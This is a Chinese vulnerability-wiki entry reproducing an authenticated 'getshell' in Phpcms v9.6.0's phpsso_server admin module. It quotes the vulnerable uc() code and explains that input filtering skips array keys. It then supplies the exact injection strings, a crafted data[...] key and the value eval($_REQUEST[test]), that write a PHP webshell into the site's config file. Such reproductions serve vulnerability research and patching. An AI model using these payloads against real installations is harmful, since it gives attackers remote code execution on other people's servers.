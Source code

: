 Phpcms v9.6.0后台getshell
=========================

一、漏洞简介
------------

phpsso\_server 后台getshell

二、漏洞影响
------------

Phpcms v9.6.0

三、复现过程
------------

漏洞来自于ROOTDIR/phpsso\_server/phpcms/modules/admin/system.php

    public function uc() {
            if (isset($_POST['dosubmit'])) {
                $data = isset($_POST['data']) ? $_POST['data'] : '';
                $data['ucuse'] = isset($_POST['ucuse']) && intval($_POST['ucuse']) ? intval($_POST['ucuse']) : 0;
                $filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'system.php';
                $config = include $filepath;
                $uc_config = '<?php '."\ndefine('UC_CONNECT', 'mysql');\n";
                foreach ($data as $k => $v) {
                    $old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
                    $new[] = "'$k'=>'$v',";
                    $uc_config .= "define('".strtoupper($k)."', '$v');\n";
                }
                $html = file_get_contents($filepath);
                $html = str_replace($old, $new, $html);
                $uc_config_filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'uc_config.php';
                @file_put_contents($uc_config_filepath, $uc_config);
                @file_put_contents($filepath, $html);
                $this->db->insert(array('name'=>'ucenter', 'data'=>array2string($data)), 1,1);
                showmessage(L('operation_success'), HTTP_REFERER);
            }
            $data = array();
            $r = $this->db->get_one(array('name'=>'ucenter'));
            if ($r) {
                $data = string2array($r['data']);
            }
            include $this->admin_tpl('system_uc');
        }

来自这段中的

\$data = isset(\$\_POST\[\'data\'\]) ? \$\_POST\[\'data\'\] : \'\';

和

foreach (\$data as \$k =\> \$v) {\$old\[\] = \"\'\$k\'=\>\'\".(isset(\$config\[\$k\]) ? \$config\[\$k\] :
\$v).\"\',\";\$new\[\] = \"\'\$k\'=\>\'\$v\',\";\$uc\_config .= \"define(\'\".strtoupper(\$k).\"\', \'\$v\');\\n\";}

这里接收post\[\'data\'\]数据中的key，value并写入配置文件ROOTDIR/phpsso\_server/caches/configs/uc\_config.php中

在ROOTDIR/phpcms/libs/classes/param.class.php中

    public function __construct() {
            if(!get_magic_quotes_gpc()) {
                $_POST = new_addslashes($_POST);
                $_GET = new_addslashes($_GET);
                $_REQUEST = new_addslashes($_REQUEST);
                $_COOKIE = new_addslashes($_COOKIE);
            }

全局过滤了post，但是这里只过滤了value，并没有过滤key

![](/Users/aresx/Documents/VulWiki/.resource/Phpcmsv9.6.0后台getshell/media/rId24.png)

在这个地方，我们可以构造

    name="data[uc_api','11');/*]"

并在Ucenter api 地址输入:

    */eval($_REQUEST[test]);//

再进行缓存更新

![](/Users/aresx/Documents/VulWiki/.resource/Phpcmsv9.6.0后台getshell/media/rId25.png)

就成功写入了一句话

![](/Users/aresx/Documents/VulWiki/.resource/Phpcmsv9.6.0后台getshell/media/rId26.png)

![](/Users/aresx/Documents/VulWiki/.resource/Phpcmsv9.6.0后台getshell/media/rId27.png)
